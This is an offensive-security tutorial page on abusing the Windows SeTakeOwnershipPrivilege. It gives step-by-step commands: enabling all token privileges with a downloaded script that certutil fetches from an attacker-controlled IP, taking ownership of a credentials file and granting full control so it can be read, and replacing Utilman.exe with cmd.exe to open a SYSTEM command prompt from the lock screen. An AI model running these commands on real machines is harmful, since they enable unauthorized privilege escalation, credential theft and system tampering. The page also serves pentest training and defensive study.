 ```yaml
---
legal-banner: true
---
```


### **Introduction**

`SeTakeOwnershipPrivilege` grants a user the ability to take ownership of any *securable object* such as Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes, This privilege assigns `WRITE_OWNER` rights, allowing the user to change the owner within the object’s security descriptor.  
While administrators have this privilege by default, it can also be granted to service accounts for specific tasks.

### **Step 1: Enabling SeTakeOwnershipPrivilege**

1.  Verify if the current user has `SeTakeOwnershipPrivilege`:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/169.png)
    
2.  Download the **EnableAllTokenPrivs.ps1** script:  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/170.png)
    
3.  Transfer the script to the target machine:  
    `certutil -urlcache -f http://[IP-ADDRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/171.png)

4.  Import the script to enable the privilege:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
5.  Verify that `SeTakeOwnershipPrivilege` is enabled:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/172.png)

### **Step 2: Choosing a target file**

1.  Identify a target file to take ownership of. In this example: `C:\Secrets\cred.txt`:  
    `Get-ChildItem -Path 'C:\Secrets\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}`  
    
    ![](../../../img/Windows-Environment/173.png)
    
2.  Check the ownership of the directory:  
    `cmd /c dir /q 'C:\Secrets'`  
    
    ![](../../../img/Windows-Environment/174.png)

### **Step 3: Taking ownership of the file**

1.  Change ownership of the file:  
    `takeown /f 'C:\Secrets\cred.txt'`  
    
    ![](../../../img/Windows-Environment/175.png)
    
2.  Confirm the ownership change:  
    `Get-ChildItem -Path 'C:\Secrets\cred.txt' | select name,directory,@{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}`  
    
    ![](../../../img/Windows-Environment/176.png)
    
3.  Grant your account full control with `icacls`:  
    `icacls 'C:\Secrets\cred.txt' /grant hackfast:F`  
    
    ![](../../../img/Windows-Environment/177.png)

    **Note:** Verify access by reading the file:  
    `cat 'C:\Secrets\cred.txt'`

### **Exploiting with Utilman**

1.  Since `Utilman.exe` runs with SYSTEM privileges, replacing it allows privilege escalation.  
    Check its current permissions:  
    `icacls "C:\Windows\System32\Utilman.exe"`  
    
    ![](../../../img/Windows-Environment/178.png)

2.  Take ownership of `utilman.exe`:  
    `takeown /f C:\Windows\System32\Utilman.exe`  
    
    ![](../../../img/Windows-Environment/179.png)

    **Note:** Ownership alone doesn’t grant access. However, the owner can assign new permissions.

3.  Grant full control over `utilman.exe`:  
    ```
    icacls C:\Windows\System32\Utilman.exe /grant hackfast:F
    icacls "C:\Windows\System32\Utilman.exe"
    ```  
    
    ![](../../../img/Windows-Environment/180.png)

4.  Replace `utilman.exe` with `cmd.exe` (backup the original first, if possible):  
    `copy cmd.exe utilman.exe`  
    
    ![](../../../img/Windows-Environment/181.png)

5.  Lock the screen from the Start menu:  
    
    ![](../../../img/Windows-Environment/182.png)

6.  Click the **Ease of Access** button.  
    Since `utilman.exe` was replaced with `cmd.exe`, a command prompt opens with SYSTEM privileges:  
    
    ![](../../../img/Windows-Environment/183.png)